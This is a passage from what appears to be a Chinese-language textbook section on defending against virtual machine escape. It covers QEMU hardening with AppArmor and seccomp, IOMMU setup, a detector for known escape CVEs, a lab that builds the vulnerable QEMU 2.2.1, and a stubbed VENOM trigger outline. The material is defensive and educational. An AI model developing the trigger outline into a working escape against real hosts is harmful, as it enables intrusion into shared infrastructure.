  </memoryBacking>
  <!-- 禁用不必要的设备 -->
  <devices>
    <disk type='file' device='disk'>
      <target dev='vda' bus='virtio'/>
    </disk>
    <!-- 无 USB、无串口、无并口 -->
  </devices>
</domain>
```

#### 第二层：进程隔离

```bash
# 使用 seccomp 限制 QEMU 系统调用
# QEMU 不应需要 execve、fork 等系统调用

# 使用 AppArmor / SELinux 限制 QEMU 权限
# /etc/apparmor.d/usr.bin.qemu-system-x86_64
#include <tunables/global>

/usr/bin/qemu-system-x86_64 {
  # 禁止访问 /proc/*/mem
  deny /proc/*/mem rw,
  # 禁止直接块设备访问
  deny /dev/sd* rw,
  deny /dev/nvme* rw,
  # 限制网络访问
  network inet stream,
  # 禁止 ptrace
  deny capability sys_ptrace,
}
```

```c
/* 使用 seccomp-bpf 限制 QEMU 系统调用 */
#include <seccomp.h>

void setup_seccomp_for_qemu() {
    scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);

    /* 允许的系统调用白名单 */
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(mmap), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(ioctl), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(epoll_wait), 0);

    /* 禁止危险系统调用 */
    seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);
    seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(fork), 0);
    seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(clone), 0);

    seccomp_load(ctx);
}
```

#### 第三层：硬件级隔离

| 技术 | 原理 | 代表实现 |
|------|------|----------|
| **Intel VT-x EPT** | 扩展页表限制 Guest 物理地址映射 | KVM + EPT |
| **AMD-V RVI** | 嵌套页表实现内存虚拟化 | KVM + NPT |
| **Intel VT-d** | DMA 重映射防止设备直通攻击 | IOMMU |
| **SEV/TDX** | 内存加密保护 VM 间隔离 | AMD SEV, Intel TDX |
| **CXL 隔离** | CXL.mem + CXL.cache 内存池化隔离 | 未来趋势 |

```bash
# 启用 IOMMU (Intel VT-d) 防止 DMA 攻击
# /etc/default/grub
GRUB_CMDLINE_LINUX="intel_iommu=on iommu=pt"

# 验证 IOMMU 状态
dmesg | grep -i iommu
# 输出: DMAR: IOMMU enabled
```

#### 第四层：监控与检测

```python
class VMEscapeDetector:
    """
    基于行为的虚拟机逃逸检测
    监控异常的 Guest->Host 交互模式
    """

    def __init__(self):
        self.alerts = []

    def check_fdc_access(self, io_port, value):
        """检测异常的 FDC I/O 访问"""
        if io_port in range(0x3F0, 0x3F8):
            # 正常软驱操作频率: < 100 次/秒
            # VENOM 利用需要数千次/秒的 FIFO 操作
            self.check_access_frequency('fdc', threshold=1000)

    def check_usb_anomaly(self, packet):
        """检测异常的 USB 数据包"""
        if packet.wLength > 4096:
            self.alerts.append({
                'type': 'CVE-2020-14364',
                'severity': 'CRITICAL',
                'detail': f'USB wLength 超大: {packet.wLength}'
            })

    def check_vmbus_gpdl(self, msg):
        """检测异常的 VMBus GPADL 消息"""
        if msg.rangecount > 10000:
            self.alerts.append({
                'type': 'CVE-2021-28476',
                'severity': 'CRITICAL',
                'detail': f'GPADL rangecount 异常: {msg.rangecount}'
            })

    def check_memory_anomaly(self, qemu_pid):
        """检测 QEMU 进程内存异常增长"""
        with open(f'/proc/{qemu_pid}/status') as f:
            for line in f:
                if line.startswith('VmRSS'):
                    rss = int(line.split()[1])
                    # 正常 QEMU 进程 RSS 不应超过预估值
                    if rss > self.expected_rss * 3:
                        self.alerts.append({
                            'type': 'HEAP_SPRAY',
                            'severity': 'HIGH',
                            'detail': f'RSS 异常增长: {rss}KB'
                        })
```

```bash
# 使用 QMP 监控 QEMU 进程状态
echo '{"execute": "query-status"}' | nc -U /var/lib/libvirt/qemu/monitor.sock

# 监控 QEMU 网络流量（检测异常 TCP 模式）
tcpdump -i br0 -nn 'host <guest-ip>' -w vm_traffic.pcap

# 使用 ftrace 跟踪 KVM 退出事件
echo 1 > /sys/kernel/debug/tracing/events/kvm/kvm_exit/enable
cat /sys/kernel/debug/tracing/trace_pipe
```

---

### 31.8.7 虚拟机逃逸实验室搭建

对于安全研究人员，搭建本地实验环境是深入理解虚拟机逃逸的最佳方式。以下是基于 QEMU + KVM 的实验环境搭建指南：

```bash
#!/bin/bash
# QEMU 逃逸实验室搭建脚本

# 1. 安装依赖
sudo apt-get install -y qemu-kvm libvirt-daemon-system \
    virt-manager ovmf

# 2. 下载存在漏洞的 QEMU 版本（用于 VENOM 实验）
wget https://download.qemu.org/qemu-2.2.1.tar.xz
tar xf qemu-2.2.1.tar.xz
cd qemu-2.2.1

# 3. 编译启用调试符号的 QEMU
./configure --target-list=x86_64-softmmu \
    --enable-debug --disable-werror
make -j$(nproc)

# 4. 创建测试虚拟机
qemu-img create -f qcow2 test-disk.qcow2 20G

# 5. 启动带调试信息的虚拟机
./x86_64-softmmu/qemu-system-x86_64 \
    -m 2048 \
    -drive file=test-disk.qcow2,format=qcow2 \
    -cdrom ubuntu-18.04-server.iso \
    -boot d \
    -netdev user,id=net0,hostfwd=tcp::2222-:22 \
    -device e1000,netdev=net0 \
    -s  \                           # 启用 GDB 调试端口 (1234)
    -d guest_errors \               # 启用调试日志
    -D /tmp/qemu-debug.log \
    -nographic

# 6. 使用 GDB 连接调试
# gdb -x qemu-2.2.1/x86_64-softmmu/qemu-system-x86_64
# (gdb) target remote :1234
# (gdb) b fdctrl_read_data
# (gdb) continue
```

```python
# 从 Guest 内部触发 VENOM 的验证脚本
# 适用于 QEMU 2.2.x + 未打补丁的 FDC

import struct
import ctypes

# FDC I/O 端口
FDC_BASE    = 0x3F0
FDC_DOR     = FDC_BASE + 2   # Digital Output Register
FDC_MSR     = FDC_BASE + 4   # Main Status Register
FDC_FIFO    = FDC_BASE + 5   # Data Register

def write_fdc(port, value):
    """通过 in/out 指令写 FDC 寄存器"""
    # 在实际 exploit 中使用 asm("outb %0, %1" : : "a"(value), "Nd"(port))
    pass

def read_fdc(port):
    """读 FDC 寄存器"""
    # 实际: asm("inb %1, %0" : "=a"(result) : "Nd"(port))
    pass

def fill_fifo():
    """填充 FIFO 缓冲区到边界"""
    # 使 data_pos 递增到 512
    for i in range(513):  # 513 次以触发越界
        write_fdc(FDC_FIFO, i & 0xFF)
    print(f"[*] FIFO 填充完成，尝试越界写入")

print("[*] VENOM CVE-2015-3466 验证脚本")
print("[*] 注意：仅在未打补丁的 QEMU 2.2.x 上有效")
```

---

### 本节小结

虚拟机逃逸是虚拟化安全领域最严重的威胁之一。通过对四个经典案例的深入分析，我们可以总结出以下关键认知：

1. **攻击面持续扩大** — 从遗留的软驱控制器到半虚拟化通信通道，VM 逃逸的攻击面随虚拟化功能的丰富而不断扩展。GPU 直通（vGPU）、SR-IOV 等新技术在带来性能提升的同时，也引入了新的 DMA 攻击面。

2. **漏洞模式有规律可循** — 缓冲区溢出（栈/堆）、整数溢出、Use-After-Free 是三大最常见的漏洞类型。理解这些模式有助于在代码审计中快速定位潜在的逃逸漏洞。

3. **防御需要纵深** — 单一安全机制（如 ASLR 或 DEP）不足以阻止所有利用路径。必须采用多层次防御策略：最小化攻击面 → 进程隔离 → 硬件隔离 → 实时监控。

4. **半虚拟化通道是新的重灾区** — CVE-2021-28476 的危害表明，半虚拟化通道（VMBus、VirtIO）的漏洞可能比传统设备模拟漏洞更危险，因为它们往往绕过了所有软件层面的防御机制。

5. **持续更新与监控是基础** — QEMU、Hyper-V、Xen 等虚拟化平台的安全补丁应第一时间部署。同时，部署运行时行为监控系统（如 seccomp、AppArmor、专用 IDS）可以在漏洞被利用前检测到异常行为。
